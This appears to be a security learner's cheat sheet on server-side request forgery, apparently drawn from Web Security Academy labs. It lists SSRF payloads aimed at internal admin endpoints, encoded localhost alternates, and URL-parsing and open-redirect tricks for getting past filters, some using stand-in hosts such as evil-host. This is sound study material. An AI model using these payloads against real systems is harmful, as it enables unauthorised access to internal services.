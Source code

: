 ### Where to look

Look for parameters in the URL or POST body being passed URLs, partial URLs, or hostnames. 
### What to try

- Local Server Request in POST body: `stockApi=http://192.168.0.68/admin`
- Back End Server IP Enumeration with Intruder: `stockApi=http://192.168.0.250:8080/admin`
- Local host alternates: `127.0.0.1`,`2130706433`, `017700000001`, `127.1`, `spoofed.burpcollaborator.net`
- Obfuscate Blocked Strings with URL encoding (or double encoding) or case variation
- Provide URL I control or switch protocols, such as `http:` to `https:`
- Embed credentials in URL: `https://expected-host:fakepassword@evil-host`
- Use URL fragment: `https://evil-host#expected-host`
- Use DNS naming hierarchy: `https://expected-host.evil-host`
- Utilize URL encoding and double encoding
- Combination of techniques: `http://localhost:80%2523@stock.weliketoshop.net/admin`
- Open redirection: `/product/nextProduct?currentProductId=6&path=http://evil-user.net`

### Details

More details can be found at [[Cyber Security/Learning/Web Security Academy/Server-side request forgery (SSRF)|Server-side request forgery (SSRF)]]
